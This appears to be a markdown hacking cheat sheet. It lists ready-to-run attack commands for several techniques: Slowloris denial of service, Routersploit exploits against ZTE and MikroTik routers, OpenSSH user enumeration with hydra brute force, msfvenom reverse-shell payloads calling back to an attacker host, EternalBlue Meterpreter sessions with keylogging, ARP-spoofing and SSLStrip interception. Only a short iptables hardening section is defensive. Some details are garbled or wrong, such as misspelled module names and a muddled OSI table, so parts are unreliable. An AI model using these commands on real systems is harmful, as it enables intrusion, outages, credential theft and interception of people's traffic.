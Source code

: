 
## OSI Layer

| No | Layer | Example |
| --- | --- | --- |
| 7 | Application | SMTP |
| 6 | Presentation | HTTPS, SSL, TLS |
| 5 | Session | NetBIOS, PPTP |
| 4 | Transport | TCP, UDP |
| 3 | Network | Router, IP, ICMP |
| 2 | Data Link | Switch |
| 1 | Physical | Hub, NIC, Cable |

## Denial Of Service
Slowloris (GET Exploit)
-----
Perl Example
```
perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
``` 
Slowloris Python (GET Exploit)
Source : https://github.com/gkbrk/slowloris
-----
Install
```
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
```
Running
```
python3 slowloris.py [IP_TARGET] --port 80 --sleeptime 1000
```
## Anonymousdoser (POST Exploit)
Source : 
```
Website [URL/IP] : [IP_TARGET]
Time [Seconds] : 9999
```
## Harderning
IP Tables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 20 --connlimit-mask 40 -j DROP
```
Log Apache & Nginx
```
/var/log/apache2/access.log
/var/log/nginx/access.log
```
Live Running Log
```
tail -f ./access.log
```

## Routersploit
Exploit For Router HGU, Mikrotik, IPCAM, etc.
Source : https://github.com/threat9/routersploit
---
Case Router ZTE_F609 and ZTE_F660
```
show exploits
search zte
use exploits/routers/zte/f609_config_disclosure
use exploits/routers/zte/f660_config_disclosure
show options
set target [IP_TARGET]
exploit
```
Case Router MikroTik 6.29-6.42 (Port 8291)
```
search mikrotik 6.29 - 6.42	=> 8291
use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure
show options
set target [IP_TARGET]
exploit
```

## Scanning Port and Service
NMAP
```
nmap -sn [RANGE_IP]
nmap -A [IP_TARGET]
```
Netdiscovery
```
netdiscovery
```
Nbtscan
```
nbtscan [NETWORK_IP]
```

## Brute Force CVE-2018-15473 (OpenSSH 2.3 < 7.7)
Source : https://www.exploit-db.com/exploits/45233
Running Exploit 
```
python3 45233.py --userList user.txt [IP_TARGET] --outputFile hasil.txt
hydra -L user.txt -P pass.txt [IP_TARGET] ssh
```

## Payload Msvenom
Payload Reverse Shell
| Target | Example |
| --- | --- |
| Android | msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP_ATTACKER] LPORT=4444 R > payload.apk |
| Windows Staged | msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Windows Stageless | msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Linux | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf >reverse.elf |
| OSX | msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho |
| Python | msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py |
| PHP | msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4444 -f raw > shell.php; cat shell.php \| pbcopy && echo '<?php ' \| tr -d '\n' > shell.php && pbpaste >> shell.php |
| Bash | msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh |

## Meterpreter
Windows 10 64bit
```
msfconsole -q
search ms17_010_ethernalblue
use exploit [ms17_010_ethernalblue]
set payload windows/x64/meterpreter/reverse_tcp
set rhost [ip target]
exploit
```
Windows 10 SMB Exploit
```
msfconsole -q
use exploit windows/smb/eternalblue_doublepulsar
set payload windows/meterpreter/reverse_tcp
set rhost [ip target]
exploit
```
Windows Access From Attacker
```
shell => Access CMD Windows
run vnc
migrate exploler.exe
keyscan_start
keyscan_dump
```

## MITM Ethercap

```
Ettercap -G

options
enable promisc mode => ethernet mode
disable promisc mode => wireless mode

sniff
unified sniffing
network interface => eth0

host
hostlist
add target 1 => router
add target 2 => pc

target
enable current target

plugins
manage the plugins
remote_browser

mitm
arp poisoning
enable sniff remote connection
```

## MITM SSLStrip
Forwarding Port
```
echo 1> /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to- port 10000
```
ARP Spoofing
```
arpspoof -i eth0 -t [IP_TARGET] -r [IP_ROUTER]
sslstrip -l 10000
```
Log SSL Strip
```
sslstrip.log
```


